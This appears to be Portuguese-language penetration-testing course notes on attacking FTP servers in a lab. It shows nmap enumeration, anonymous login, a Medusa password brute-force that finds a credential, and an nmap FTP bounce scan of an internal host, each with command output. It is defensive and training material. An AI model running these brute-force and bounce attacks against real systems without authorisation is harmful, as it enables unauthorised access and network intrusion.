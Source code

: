 # Atacando o FTP

O File Transfer Protocol ( FTP) é um protocolo de rede padrão usado para transferir arquivos entre computadores. Ele também executa operações de diretório e arquivos, como alterar o diretório de trabalho, listar arquivos e renomear e excluir diretórios ou arquivos. Por padrão, o FTP escuta na porta ``TCP/21``.

Para atacar um servidor FTP, podemos abusar de configurações incorretas ou privilégios excessivos, explorar vulnerabilidades conhecidas ou descobrir novas vulnerabilidades. Portanto, após obter acesso ao Serviço FTP, precisamos estar atentos ao conteúdo do diretório para que possamos buscar informações sensíveis ou críticas, conforme discutimos anteriormente. O protocolo foi projetado para acionar downloads e uploads com comandos. Assim, os arquivos podem ser transferidos entre servidores e clientes. Um sistema de gerenciamento de arquivos está disponível para o usuário, conhecido pelo sistema operacional. Os arquivos podem ser armazenados em pastas, que podem estar localizadas em outras pastas. Isso resulta em uma estrutura de diretório hierárquica. A maioria das empresas utiliza este serviço para processos de desenvolvimento de software ou sites.

## Enumeração

Scripts padrão do Nmap ``-sC`` inclui o script Nmap ``ftp-anon`` que verifica se um servidor FTP permite logins anônimos. O sinalizador de enumeração de versão ``-sV`` fornece informações interessantes sobre serviços FTP, como o banner FTP, que geralmente inclui o nome da versão. Podemos usar o cliente FTP ou ``nc`` para interagir com o serviço FTP. Por padrão, o FTP é executado na porta ``TCP 21``.

## Nmap

### Atacando FTP

```bash
NycolasES6@htb[/htb]$ sudo nmap -sC -sV -p 21 192.168.2.142 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 22:04 EDT
Nmap scan report for 192.168.2.142
Host is up (0.00054s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 1170     924            31 Mar 28  2001 .banner
| d--x--x--x   2 root     root         1024 Jan 14  2002 bin
| d--x--x--x   2 root     root         1024 Aug 10  1999 etc
| drwxr-srwt   2 1170     924          2048 Jul 19 18:48 incoming [NSE: writeable]
| d--x--x--x   2 root     root         1024 Jan 14  2002 lib
| drwxr-sr-x   2 1170     924          1024 Aug  5  2004 pub
|_Only 6 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
```

## Configurações incorretas

Conforme discutimos, a autenticação anônima pode ser configurada para diferentes serviços, como FTP. Para acessar com login anônimo, podemos usar o nome de usuário ``anonymous`` e nenhuma senha. Isto será perigoso para a empresa se as permissões de leitura e gravação não tiverem sido configuradas corretamente para o serviço FTP. Porque com o login anônimo, a empresa poderia ter armazenado informações confidenciais em uma pasta à qual o usuário anônimo do serviço FTP poderia ter acesso.

Isso nos permitiria baixar essas informações confidenciais ou até mesmo fazer upload de scripts perigosos. Usando outras vulnerabilidades, como path traversal em uma aplicação web, poderíamos descobrir onde esse arquivo está localizado e executá-lo como código PHP, por exemplo.

### Autenticação anônima

```bash
NycolasES6@htb[/htb]$ ftp 192.168.2.142    
                     
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
226 Directory send OK.
```

Assim que tivermos acesso a um servidor FTP com credenciais anônimas, podemos começar a procurar informações interessantes. Podemos usar os comandos ``ls`` e ``cd`` para navegar pelos diretórios como no Linux. Para baixar um único arquivo, usamos ``get``, e para baixar vários arquivos, podemos usar ``mget``. Para operações de upload, podemos usar ``put`` para um arquivo simples ou ``mput`` para vários arquivos. Podemos usar ``help`` na sessão do cliente FTP para mais informações.

No módulo Footprinting , cobrimos informações detalhadas sobre possíveis configurações incorretas de tais serviços. Por exemplo, muitas configurações diferentes podem ser aplicadas a um servidor FTP, e algumas delas levam a opções diferentes que podem causar possíveis ataques contra esse serviço. No entanto, este módulo se concentrará em ataques específicos, em vez de encontrar configurações incorretas individuais.

## Ataques específicos de protocolo

Muitos ataques e métodos diferentes são baseados em protocolos. No entanto, é essencial observar que não estamos atacando os protocolos individuais em si, mas os serviços que os utilizam. Como existem dezenas de serviços para um único protocolo e eles processam as informações correspondentes de maneira diferente, veremos alguns.

### Força bruta

Se não houver autenticação anônima disponível, também podemos forçar o login para os serviços FTP usando uma lista de nomes de usuário e senhas pré-gerados. Existem muitas ferramentas diferentes para realizar um ataque de força bruta. Vamos explorar uma delas, a ``Medusa``. Com Medusa, podemos usar a opção ``-u`` para especificar um único usuário a ser alvo, ou você pode usar a opção ``-U`` para fornecer um arquivo com uma lista de nomes de usuários. A opção ``-P`` é para um arquivo contendo uma lista de senhas. Podemos usar a opção ``-M`` e o protocolo que pretendemos (FTP) e a opção ``-h`` para o nome do host ou endereço IP de destino.

> Observação: embora possamos encontrar serviços vulneráveis à força bruta, a maioria dos aplicativos hoje evita esses tipos de ataques. Um método mais eficaz é a pulverização de senha.

## Força Bruta com Medusa

```bash
NycolasES6@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: fiona Password: family [SUCCESS]
```

### Ataque de rejeição de FTP

Um ataque de rejeição de FTP é um ataque de rede que usa servidores FTP para entregar tráfego de saída para outro dispositivo na rede. O invasor usa um comando ``PORT`` para enganar a conexão ``FTP``, fazendo-a executar comandos e obter informações de um dispositivo diferente do servidor pretendido.

Considere que temos como alvo um servidor FTP ``FTP_DMZ`` exposto à Internet. Outro dispositivo na mesma rede, ``Internal_DMZ``, não está exposto à Internet. Podemos usar a conexão com o servidor ``FTP_DMZ`` para escanear ``Internal_DMZ`` usando o ataque ``FTP Bounce`` e obter informações sobre as portas abertas do servidor. Então, poderemos usar essas informações como parte do nosso ataque contra a infraestrutura.

![alt text](img/ftp_bounce_attack.webp)

O sinalizador Nmap ``-b`` pode ser usado para realizar um ataque de rejeição de FTP:

```bash
NycolasES6@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

Os servidores FTP modernos incluem proteções que, por padrão, evitam esse tipo de ataque, mas se esses recursos forem configurados incorretamente nos servidores FTP modernos, o servidor pode se tornar vulnerável a um ataque FTP Bounce.
